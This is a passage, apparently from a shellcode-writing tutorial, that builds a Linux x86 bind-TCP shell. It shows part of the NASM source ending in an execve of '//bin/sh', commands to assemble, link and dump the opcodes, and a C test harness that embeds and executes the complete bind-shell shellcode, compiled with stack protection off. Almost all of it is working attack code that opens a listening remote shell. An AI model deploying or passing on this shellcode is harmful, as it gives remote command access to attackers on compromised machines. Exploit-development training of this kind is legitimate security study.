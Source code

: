 ```nasm

		; //bin/sh (8)
		push 0x68732f2f
		push 0x6e69622f
							; stack contents from top - //bin/sh 0x00000000
		mov ebx, esp				; EBX has address of //bin/sh null terminated

		push eax				; push another 4 null bytes
        						; stack contents from top - 0x00000000 //bin/sh 0x00000000
        
		mov edx, esp				; now EDX has the address of the 4 null bytes that we just pushed
        
		push ebx				; stack contents from top
        						; addr_of_/bin/sh 0x00000000 //bin/sh 0x00000000

		mov ecx, esp

		mov al, 0xb
		int 0x80
```
Assembling and linking assembly code.
```
nasm -f elf32 shell-bind-tcp-x86.nasm -o shell-bind-tcp-x86.o
ld shell-bind-tcp-x86.o -o shell-bind-tcp-x86
```
Dumping shellcode from the executable.
```
objdump -d ./shell-bind-tcp-x86|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```

![Assemble, Link and Dump Shellcode](/assets/asn-1-asbmle-link-dump-shellcode.PNG)

```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\x50\xb0\x66\x6a\x01\x5b\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x5b\x5e\x96\xb0\x66\x66\x68\x10\xe1\x66\x53\x89\xe1\x6a\x10\x51\x56\x89\xe1\xcd\x80\xb0\x66\xb3\x04\x31\xff\x57\x56\x89\xe1\xcd\x80\xb0\x66\x43\x57\x57\x56\x89\xe1\xcd\x80\x93\x31\xc0\x31\xc9\xb1\x02\xb0\x3f\xcd\x80\x49\x79\xf9\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";
main()
{
        printf("Shellcode Length:  %d\n", strlen(code));
        int (*ret)() = (int(*)())code;
        ret();
}

```
Compiling with gcc.
```
gcc shellcode.c -o shell-bind-tcp -fno-stack-protector -z execstack
```